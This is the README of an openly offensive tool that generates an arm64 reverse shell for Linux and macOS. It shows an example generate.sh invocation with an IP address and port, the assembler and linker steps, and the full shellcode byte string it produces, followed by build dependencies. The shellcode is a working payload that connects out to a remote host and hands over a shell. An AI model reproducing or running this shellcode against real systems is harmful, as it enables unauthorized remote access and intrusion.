 # arm64 reverse shell

tested on Debian 10 & M1 macOS 12.3

[![asciicast](https://asciinema.org/a/483086.svg)](https://asciinema.org/a/483086)

## shellcode

It'll give you shellcode if you pass `shellcode` in the last argument.

** example**

```bash
$ ./generate.sh 192.168.64.1 4444 shellcode

as linux-reverseshell.s -o linux-reverseshell.o
ld -o linux-reverseshell linux-reverseshell.o
\xc8\x18\x80\xd2\x01\xfd\x47\xd3\x20\xf8\x7f\xd3\xe2\x03\x1f\xaa\xe1\x66\x02\xd4\xe4\x03\x20\xaa\x21\xf8\x7f\xd3\x21\x82\xab\xf2\x01\x18\xd5\xf2\x01\x28\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x63\x22\x8b\x02\x02\x80\xd2\x68\x19\x80\xd2\xe1\x66\x02\xd4\x41\xfc\x42\xd3\xe0\x03\x24\xaa\x21\xfc\x41\xd3\xe2\x03\x1f\xaa\x08\x03\x80\xd2\xe1\x66\x02\xd4\xea\x03\x1f\xaa\x5f\x01\x01\xeb\x21\xff\xff\x54\xe3\x45\x8c\xd2\x23\xcd\xad\xf2\xe3\x65\xce\xf2\x03\x0d\xe0\xf2\xe3\x8f\x1f\xf8\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4
```

## dependencies

to build you'll need:

 - make
 - ld
 - Xcode (on mac)
 
